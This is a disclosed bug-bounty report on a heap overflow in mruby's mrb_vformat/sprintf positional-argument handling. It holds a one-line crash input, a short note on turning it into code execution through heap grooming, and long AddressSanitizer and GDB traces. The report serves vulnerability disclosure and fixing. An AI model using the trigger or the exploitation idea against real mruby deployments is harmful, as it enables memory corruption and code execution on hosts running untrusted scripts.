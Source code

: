 # mrb_vformat() heap overflow could lead to code execution

## Report Details
- **Report ID**: 192318
- **URL**: https://hackerone.com/reports/192318
- **State**: Closed
- **Severity**: none
- **Submitted**: 2016-12-19T02:39:50.127Z
- **Disclosed**: 2017-02-10T21:48:31.094Z

## Reporter
- **Username**: mg36
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
Description:
====================
**mrb_vformat** is responsible to parse string format like 'printf' in C, the code doesn't check the number given between '%' and '$' .
 **mrb_fixnum_to_str()** is called by **join_ary** and converts the given number from string into integer, this could lead to overwrite and fully control mbr_value object.

POC
====================
The poc is fairly simple an could be triggered from many different place, here is the trivial one :
```
'%A%1094861636$'%2
```
Exploitability:
====================
The value 1094861636 can be changed with any memory pointer address and overwrite mbr_value objects, so there a very high possibility to make a code execution by crafting and grooming the heap and make the pointer to be written in a predicted place.


Here is some debug analysis :
```
simo@vlab64:~/sources/mruby/bin% ./mruby_asan < CRASH.rb
=================================================================
==78222==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x603000004a7d at pc 0x000000524919 bp 0x7fffffffca20 sp 0x7fffffffca18
READ of size 8 at 0x603000004a7d thread T0
    #0 0x524918 in mrb_obj_respond_to /home/simo/sources/mruby_libF/src/class.c:1533:25
    #1 0x524918 in mrb_respond_to /home/simo/sources/mruby_libF/src/class.c:1554
    #2 0x54c00e in convert_type /home/simo/sources/mruby_libF/src/object.c:314:8
    #3 0x54c00e in mrb_check_convert_type /home/simo/sources/mruby_libF/src/object.c:356
    #4 0x50efad in join_ary /home/simo/sources/mruby_libF/src/array.c:1030:13
    #5 0x50eaf5 in mrb_ary_join /home/simo/sources/mruby_libF/src/array.c:1054:10
    #6 0x61c5c2 in mrb_raisef /home/simo/sources/mruby_libF/src/error.c:371:10
    #7 0x664ea8 in check_pos_arg /home/simo/sources/mruby_libF/mrbgems/mruby-sprintf/src/sprintf.c
    #8 0x663264 in mrb_str_format /home/simo/sources/mruby_libF/mrbgems/mruby-sprintf/src/sprintf.c:655:9
    #9 0x65da7d in mrb_f_sprintf /home/simo/sources/mruby_libF/mrbgems/mruby-sprintf/src/sprintf.c:514:12
    #10 0x557e7d in mrb_vm_exec /home/simo/sources/mruby_libF/src/vm.c:1171:18
    #11 0x56b136 in mrb_top_run /home/simo/sources/mruby_libF/src/vm.c:2487:12
    #12 0x5e9629 in mrb_load_exec /home/simo/sources/mruby_libF/mrbgems/mruby-compiler/core/parse.y:5755:7
    #13 0x4ed9f3 in main /home/simo/sources/mruby_libF/mrbgems/mruby-bin-mruby/tools/mruby/mruby.c:232:11
    #14 0x7ffff6ee682f in __libc_start_main /build/glibc-t3gR2i/glibc-2.23/csu/../csu/libc-start.c:291
    #15 0x41a108 in _start (/home/simo/sources/mruby/bin/fuzz_mruby/mruby_asan+0x41a108)

0x603000004a7d is located 3 bytes to the left of 30-byte region [0x603000004a80,0x603000004a9e)
allocated by thread T0 here:
    #0 0x4c0b4e in realloc (/home/simo/sources/mruby/bin/fuzz_mruby/mruby_asan+0x4c0b4e)
    #1 0x4fc26d in mrb_realloc_simple /home/simo/sources/mruby_libF/src/gc.c:201:8
    #2 0x65c4cc in codegen_realloc /home/simo/sources/mruby_libF/mrbgems/mruby-compiler/core/codegen.c:131:7
    #3 0x65c4cc in scope_finish /home/simo/sources/mruby_libF/mrbgems/mruby-compiler/core/codegen.c:2832
    #4 0x65084a in scope_body /home/simo/sources/mruby_libF/mrbgems/mruby-compiler/core/codegen.c:746:3
    #5 0x62aabc in codegen /home/simo/sources/mruby_libF/mrbgems/mruby-compiler/core/codegen.c:1548:5
    #6 0x6292e2 in mrb_generate_code /home/simo/sources/mruby_libF/mrbgems/mruby-compiler/core/codegen.c:2950:5
    #7 0x5e91c7 in mrb_load_exec /home/simo/sources/mruby_libF/mrbgems/mruby-compiler/core/parse.y:5732:10
    #8 0x4ed9f3 in main /home/simo/sources/mruby_libF/mrbgems/mruby-bin-mruby/tools/mruby/mruby.c:232:11
    #9 0x7ffff6ee682f in __libc_start_main /build/glibc-t3gR2i/glibc-2.23/csu/../csu/libc-start.c:291

SUMMARY: AddressSanitizer: heap-buffer-overflow /home/simo/sources/mruby_libF/src/class.c:1533:25 in mrb_obj_respond_to
```

GDB output :
```
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/simo/sources/mruby/bin/fuzz_mruby/mruby < crash2.rb

Program received signal SIGSEGV, Segmentation fault.
0x000000000040b44b in mrb_class (mrb=0x6af010, v=...) at /home/simo/sources/patch/mruby/include/mruby/class.h:50
50          return mrb_obj_ptr(v)->c;
(gdb) x/2i $pc
=> 0x40b44b <mrb_class+151>:    mov    rax,QWORD PTR [rax+0x8]
   0x40b44f <mrb_class+155>:    pop    rbp
(gdb) x/xg $rax
0x141424344:    Cannot access memory at address 0x141424344
(gdb) bt
#0  0x000000000040b44b in mrb_class (mrb=0x6af010, v=...) at /home/simo/sources/patch/mruby/include/mruby/class.h:50
#1  0x0000000000410b03 in mrb_respond_to (mrb=0x6af010, obj=..., mid=144) at /home/simo/sources/patch/mruby/src/class.c:1554
#2  0x000000000041c5ac in convert_type (mrb=0x6af010, val=..., tname=0x46f9c6 "String", method=0x46f9bf "to_str", raise=0 '\000') at /home/simo/sources/patch/mruby/src/object.c:314
#3  0x000000000041c85e in mrb_check_convert_type (mrb=0x6af010, val=..., type=MRB_TT_STRING, tname=0x46f9c6 "String", method=0x46f9bf "to_str") at /home/simo/sources/patch/mruby/src/object.c:356
#4  0x000000000042f05f in mrb_check_string_type (mrb=0x6af010, str=...) at /home/simo/sources/patch/mruby/src/string.c:1729
#5  0x000000000040ab4c in join_ary (mrb=0x6af010, ary=..., sep=..., list=...) at /home/simo/sources/patch/mruby/src/array.c:1030
#6  0x000000000040ac94 in mrb_ary_join (mrb=0x6af010, ary=..., sep=...) at /home/simo/sources/patch/mruby/src/array.c:1054
#7  0x000000000044bc23 in mrb_vformat (mrb=0x6af010, format=0x49d208 "numbered(%S) after unnumbered(%S)", ap=0x7fffffffd610) at /home/simo/sources/patch/mruby/src/error.c:347
#8  0x000000000044bdd3 in mrb_raisef (mrb=0x6af010, c=0x6b6650, fmt=0x49d208 "numbered(%S) after unnumbered(%S)") at /home/simo/sources/patch/mruby/src/error.c:371
#9  0x000000000045c410 in check_pos_arg (mrb=0x6af010, posarg=1, n=1094861636) at /home/simo/sources/patch/mruby/mrbgems/mruby-sprintf/src/sprintf.c:158
#10 0x000000000045cf6e in mrb_str_format (mrb=0x6af010, argc=2, argv=0x6c1e60, fmt=...) at /home/simo/sources/patch/mruby/mrbgems/mruby-sprintf/src/sprintf.c:620
#11 0x000000000045c748 in mrb_f_sprintf (mrb=0x6af010, obj=...) at /home/simo/sources/patch/mruby/mrbgems/mruby-sprintf/src/sprintf.c:514
#12 0x0000000000421126 in mrb_vm_exec (mrb=0x6af010, proc=0x6b3fb0, pc=0x48ca78 <gem_mrblib_irep_mruby_sprintf+208>) at /home/simo/sources/patch/mruby/src/vm.c:1171
#13 0x000000000041f63b in mrb_vm_run (mrb=0x6af010, proc=0x6b21e0, self=..., stack_keep=0) at /home/simo/sources/patch/mruby/src/vm.c:772
#14 0x000000000042766b in mrb_top_run (mrb=0x6af010, proc=0x6b21e0, self=..., stack_keep=0) at /home/simo/sources/patch/mruby/src/vm.c:2487
#15 0x0000000000447e56 in mrb_load_exec (mrb=0x6af010, p=0x70b080, c=0x709f30) at /home/simo/sources/patch/mruby/mrbgems/mruby-compiler/core/parse.y:5755
#16 0x0000000000447eec in mrb_load_file_cxt (mrb=0x6af010, f=0x7ffff7ac88e0 <_IO_2_1_stdin_>, c=0x709f30) at /home/simo/sources/patch/mruby/mrbgems/mruby-compiler/core/parse.y:5764
#17 0x000000000040238e in main (argc=1, argv=0x7fffffffe4a8) at /home/simo/sources/patch/mruby/mrbgems/mruby-bin-mruby/tools/mruby/mruby.c:232
(gdb)
```

Unfortunately I couldn't write a reliable patch for this for lack of knowledge about mruby internals and investigating other security bugs which will be reported soon.



## Attachments
No attachments
